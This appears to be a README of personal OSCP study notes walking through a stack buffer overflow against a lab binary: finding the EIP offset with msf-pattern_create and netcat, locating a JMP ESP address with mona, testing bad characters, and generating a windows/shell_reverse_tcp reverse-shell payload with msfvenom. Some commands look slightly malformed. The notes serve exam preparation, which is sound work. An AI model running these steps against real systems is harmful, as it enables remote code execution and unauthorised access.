 # dostackbufferoverflow-POC

Some notes for my OSCP prep

## Requirements
These binaries are included in the Kali Linux Distribution. 
* netcat
* msf-pattern_create
* msf-pattern_offset
* msfvenom

## Finding the Offset

`$ msf-pattern_create -l 1000 |nc -w 1 $HOST $PORT`
once the program crashed, look at your Immunity Debugger on what the EIP value and put the value in msf-pattern_offset

$ msf-pattern_offset -l 200 -q 39654138
[*] Exact match at offset 146


## Overwriting the EIP
```
$ $(msf-pattern_create -l 146)$(echo "AAAA") |nc -w 1 $HOST $PORT
EIP: 414141
```

## Controlling the EIP

to identify which pointers use the OPCODE for JMP ESP
`!mona find -s '\xff\xe4"`
Note: \xFF\xe4 is the hex value for JMP ESP

in this case, 0x080414c3 and 0x080416bf are the ones that we are going to put in the EIP address,
convert the address values to little endian format

for example: 0x080414c3 turns into \xc3\x14\x04\x08

reset the executable in the Immunity Debugger
stop the JMP ESP address from executing by finding the return address 0x080414c3 or 0x080416bf using the right arrow and searching for the address and press f2
send the payload
`$ $(msf-pattern_create -l 146)$(echo -en '\xc3\x14\x04\x08') |nc -w 1 $HOST $PORT`

## Finding Bad Characters

Some characters may return bad output therefore reading your payload useless, to test for bad characters, send all bad characters after the EIP. \x00 is considered a bad character since it is a null byte.

`$(msf-pattern_create -l 146)$(echo -en '\xc3\x14\x04\x08')$(echo -en "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" |nc -w 1 $HOST $PORT`

## Finding the right modules

msfvenom has alot of payloads to choose from, to view them use `msfvenom --list payloads` choose a payload that suites you and the architecture.
for this box, ill be using the `windows/shell_reverse_tcp`
`msfvenom -p windows/shell_reverse_tcp -b '\x00\0x0A' -sh --var-name=poc LHOST=$LHOST LPORT=$LPORT`

and run the exploit, this repository includes the POC.sh


